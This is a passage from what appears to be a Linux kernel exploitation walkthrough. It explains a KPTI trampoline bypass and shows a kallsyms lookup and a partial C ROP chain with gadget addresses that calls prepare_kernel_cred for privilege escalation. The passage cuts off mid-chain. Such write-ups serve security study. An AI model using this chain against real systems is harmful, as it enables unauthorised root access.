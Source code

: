 So we can use the piece of code in this function, to return to user mode. Let's see it in the disassembly view:

```sh
/ # cat /proc/kallsyms | grep swapgs_restore_regs_and_return_to_usermode
ffffffff81800e10 T swapgs_restore_regs_and_return_to_usermode
```

![alt text](image.png)

![alt text](image-1.png)

The key point is that the stack was pre-adjusted to point to the correct location. The subsequent pushes are copying the user-space register values — originally stored on the kernel stack and meant for iretq — to a memory area that remains accessible even after the CR3 switch triggered by KPTI. So our complete KPTI Trampoline chain is started at `0xffffffff81800e26`

```c
    uint64_t kpti_trampoline_chain = 0xffffffff81800e26;
    uint64_t pop_rdi = 0xffffffff812ef4c0;
    uint64_t pop_rcx = 0xffffffff812ea083;
    uint64_t mov_rdi_rax = 0xffffffff8160c96b;

    uint64_t idx = 0;
    uint64_t *ROP = (uint64_t *)(buf + 0x408);

    ROP[idx++] = pop_rdi; // return address
    ROP[idx++] = 0;
    ROP[idx++] = prepare_kernel_cred;
    ROP[idx++] = pop_rcx; // Set rcx to 0 to avoid "rep movsq qword ptr [rdi], qword ptr [rsi]" in mov_rdi_rax
```